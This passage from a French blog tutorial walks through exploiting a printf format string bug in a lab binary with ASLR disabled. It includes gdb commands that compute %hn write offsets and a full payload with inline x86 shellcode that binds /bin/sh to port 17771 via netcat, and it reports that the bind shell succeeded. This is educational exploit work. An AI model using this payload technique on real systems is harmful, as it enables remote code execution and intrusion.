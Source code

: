 Calcul de la seconde partie de l'adresse :
```
(gdb) print 0xf26c - 0xbff6 - 9
$18 = 12909
```

Ensuite on teste:
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%49142x" + "%8$hn" + "%12909x" + "%7$hn" + "\x90"*4 + "A"*100')
```
  
![fmt13]({{ site.url }}/public/images/fmt/fmt13.png)  
un rapide calcul nous montre qu'il nous reste **63 bytes** pour notre shellcode. 
  
Allons faire notre marché sur [shell-storm](http://shell-storm.org/shellcode/).  
Celui la est fun: [http://shell-storm.org/shellcode/files/shellcode-872.php](http://shell-storm.org/shellcode/files/shellcode-872.php).  
Il s'agit d'un shellcode qui appelle netcat (/bin/nc) et bind le port 17771 pour le rediriger sur /bin/sh.  
  
Nous adaptons donc notre payload et le testons sous gdb:  
```
(gdb) r < <(python -c 'print "A" + "\x14\xa0\x04\x08" + "\x16\xa0\x04\x08" + "%49142x" + "%8$hn" + "%12909x" + "%7$hn" + "\x90"*4 + "\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
![fmt14]({{ site.url }}/public/images/fmt/fmt14.png)  
Here we go, essayons de nous connecter:  
![fmt15]({{ site.url }}/public/images/fmt/fmt15.png)  
Du coté de notre shellcode:  
![fmt16]({{ site.url }}/public/images/fmt/fmt16.png)  
Nous pouvons donc en conclure qu'à partir d'un simple appel *printf*, il a été possible d'exécuter un bind shell. Bien évidemment ceci est un cas d'école et a été possible grâce à la désactivation de l'ASLR, rendant ainsi nos adresses prédictibles.

Pour conclure, si vous rencontrez un souci entre l'exécution dans l'environnement gdb et votre shell, voici une réponse: [https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it). Assurez-vous que les environnements soient strictement identiques. Ce [script](https://github.com/hellman/fixenv) peut également vous aider à avoir le même environnement avec/sans debugging.  
  
N'hésitez pas à me contacter ou à laisser un com.  
See Ya!  
  

Références:
 - [https://www.owasp.org/index.php/Format_string_attack](https://www.owasp.org/index.php/Format_string_attack)
